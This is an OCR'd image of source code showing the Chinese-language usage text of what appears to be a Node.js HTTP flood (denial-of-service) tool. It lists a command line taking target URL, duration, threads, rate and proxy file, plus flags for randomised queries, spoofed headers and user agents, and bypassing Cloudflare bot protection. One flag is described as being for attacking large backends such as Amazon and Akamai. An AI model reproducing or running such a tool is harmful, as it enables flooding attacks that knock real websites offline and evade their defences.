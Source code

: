     使用方法:
      node ${process.argv[1]} <GET/POST/HEAD/OPTIONS> <目标地址> <持续时间> <线程数> <请求速率限制> <代理文件> --参数
      Eg:
      node ${process.argv[1]} GET "https://target.com?q=%RAND%" 120 16 90 proxy.txt --query 1 --delay 1 --bfm true --referer rand --postdata "user=f&pass=%RAND%" --debug --randrate --full --header "f:f" --ip 1.1.1.1:3128 --useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36" --useuatxt ua.txt
-----------------------------------------------------
    参数选项:
     --query 1/2/3 ~~~ 带 rand 的查询字符串，例如 1 - ?cf__chl_tk 2 - ?fwfwfwfw 3 - ?q=fwfwwffw
     --delay <1-1000> ~~~ 请求之间的延迟 1-100 毫秒（最佳）默认 1 毫秒
     --cookie "f=f" ~~~ 用于自定义 cookie - 还支持 %RAND% 的 cookie，例如：“bypassing=%RAND%”
     --bfm true/null ~~~ 如果需要，机器人战斗模式更改为 true，如果不需要则不使用
     --referer seturl / rand ~~~ 如果需要，使用自定义 referer 和 rand - 如果需要生成域名，例如：fwfwwfwfw.net
     --postdata "user=f&pass=%RAND%" ~~~ 如果您需要数据来发布请求方法格式“user=f&pass=f”
     --randrate ~~~ 随机化器速率 1 到 90 良好绕过速率
     --full ~~~ 此新功能仅用于攻击大型后端 ex amazon akamai 和其他... 支持 cf
     --http 1/2/mix ~~~ 新功能选择键入 http 1/2/mix（mix 1 & 2）
     --debug ~~~ 显示您的状态代码（可能低 rps 以使用更多资源）
     --header "f:f" or "f:f#f1:f1" ~~~ 如果需要，请使用自定义标头，用 # 分隔每个标头
     --legit ~~~ 此新功能用于攻击，具有完整合法标头，不适用于 cf
     --ip 代理ip:端口 ~~~ 使用自定义 IP 代理
     --useragent 你的UA ~~~ 使用自定义 useragent
     --useuatxt ua.txt ~~~ 使用自定义UA文件 ua.txt
